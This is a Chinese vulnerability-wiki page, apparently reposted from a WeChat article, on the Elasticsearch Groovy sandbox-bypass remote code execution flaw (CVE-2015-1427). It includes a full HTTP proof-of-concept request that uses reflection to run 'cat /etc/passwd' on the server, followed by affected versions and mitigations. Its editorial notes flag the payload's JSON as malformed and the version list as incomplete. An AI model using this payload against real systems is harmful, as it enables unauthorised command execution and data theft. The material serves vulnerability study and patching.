

# ElasticSearch Groovy 远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 证据范围：与357同漏洞不同转载，反射读取输出链应作为变体；修复sandbox=false看似反直觉但原厂确实如此，不应误判为错误。

### 已有来源支持的更正

- 原厂明确sandbox.enabled=false并重启为历史缓解；确认完整影响范围与修复版本

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- JSON闭合括号前带反斜杠，非法JSON
- 影响表只列1.3.7漏1.3.0–.6；缺索引至少一条匹配数据的前提
- 禁用sandbox意为该引擎不再被信任以默认沙盒策略拒绝动态执行，需解释旧版配置语义，避免理解成允许无沙盒任意脚本
- 来源原文可追溯，但广告及HTML表格可整理

### 核验来源

- https://github.com/elastic/elasticsearch/issues/9655

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gaLFPkLpeIy1SC3dmBY9VA)


**（ElasticSearch Groovy 远程代码执行漏洞   CVE-2015-1427）**

**前言：**  

Elasticsearch 是一个基于 Lucene 的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于 RESTful web 接口。Elasticsearch 是用 Java 语言开发的，并作为 Apache 许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

**漏洞描述：**  

曾经被曝出过一个 ElasticSearch 远程代码执行漏洞（CVE-2014-3120） ，漏洞出现在脚本查询模块，由于搜索引擎支持使用脚本代码（MVEL），作为表达式进行数据操作，攻击者可以通过 MVEL 构造执行任意 java 代码。

后来脚本语言引擎换成了 Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行，

**漏洞复现:**

POC:

```http
POST /_search?pretty HTTP/1.1
Host: ip:9200
User-Agent: python-requests/2.21.0
Accept: */*
Connection: close
Content-Length: 409

{"size":1,"script_fields": {"gem#": {"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang": "groovy"\}\\}\}
```



**受影响版本：**  

<table><tbody><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.4.1</td></tr><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.4.2</td></tr><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.4.0&nbsp;&nbsp;</td></tr><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.4.0:Beta1&nbsp;&nbsp;</td></tr><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.3.7<br></td></tr></tbody></table>

**修复建议：**

关闭外网 关闭 groovy script；

在 elasticsearch.yml 进行配置加 script.groovy.sandbox.enabled: false 配置完需要重启 es 服务；

更新最新版本。


一起学习，请关注我

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
